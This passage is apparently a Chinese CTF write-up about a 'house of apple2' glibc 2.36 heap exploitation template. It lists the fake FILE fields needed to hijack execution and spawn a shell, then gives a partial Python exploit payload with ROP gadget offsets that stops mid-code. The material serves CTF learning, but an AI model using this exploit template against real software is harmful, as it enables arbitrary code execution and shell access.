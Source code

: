 其实是 shellcode 题，用 2.36 版本堆包装了一下，这里可以当成 house of apple2 的板子：

### Apple2 板子

> [!quote]
> 对fp的设置如下：
>
> - `_flags` 设置为 `~(2 | 0x8 | 0x800)`，如果不需要控制 rdi，设置为0即可；如果需要获得 shell，可设置为 `  sh;`，注意前面有两个空格
> - `vtable` 设置为 `_IO_wfile_jumps/_IO_wfile_jumps_mmap/_IO_wfile_jumps_maybe_mmap` 地址（加减偏移），使其能成功调用 `_IO_wfile_overflow` 即可
> - `_wide_data` 设置为可控堆地址 A，即满足 `*(fp + 0xa0) = A`
> - `_wide_data->_IO_write_base` 设置为 0，即满足 `*(A + 0x18) = 0`
> - `_wide_data->_IO_buf_base` 设置为 0，即满足 `*(A + 0x30) = 0`
> - `_wide_data->_wide_vtable` 设置为可控堆地址 B，即满足 `*(A + 0xe0) = B`
> - `_wide_data->_wide_vtable->doallocate` 设置为地址 C 用于劫持 RIP，即满足 `*(B + 0x68) = C`
> - **`_lock` 设置为可写地址；`mode` 设置大于 0**
>
> 函数的调用链如下：
>
> ```c
> _IO_wfile_overflow
>     _IO_wdoallocbuf
>         _IO_WDOALLOCATE
>             *(fp->_wide_data->_wide_vtable + 0x68)(fp)
> ```

板子如下：

```python
"""
1630aa:>  48 8b 6f 48          >  mov    rbp,QWORD PTR [rdi+0x48]
1630ae:>  48 8b 45 18          >  mov    rax,QWORD PTR [rbp+0x18]
1630b2:>  4c 8d 6d 10          >  lea    r13,[rbp+0x10]
1630b6:>  c7 45 10 00 00 00 00 >  mov    DWORD PTR [rbp+0x10],0x0
1630bd:>  4c 89 ef             >  mov    rdi,r13
1630c0:>  ff 50 28             >  call   QWORD PTR [rax+0x28]
"""
magic_gadget = libc_base + 0x1630AA
leave_ret = libc_base + 0x0000000000050877
add_rsp_0x38_ret = libc_base + 0x0000000000054BF4
pop_rdi_ret = libc_base + 0x0000000000023B65
pop_rsi_ret = libc_base + 0x00000000000251BE
pop_rdx_ret = libc_base + 0x0000000000166262
pop_rax_ret = libc_base + 0x000000000003FA43

_lock = libc_base + 0x1F8A10
_IO_wfile_jumps = libc_base + libc.sym._IO_wfile_jumps
fake_IO_FILE = heap_base + 0x290

f1 = IO_FILE_plus_struct()
f1.flags = u64_ex("  sh;")
f1._lock = _lock
f1._wide_data = fake_IO_FILE + 0xE0
f1._mode = 1
f1.vtable = _IO_wfile_jumps

f1._IO_save_base = fake_IO_FILE + 0x510 + 0x100

payload = flat(
    {
        0: {
            0: bytes(f1)[0x10:],
            0xE0 - 0x10: {
                0x18: [0],
                0x30: [0],
```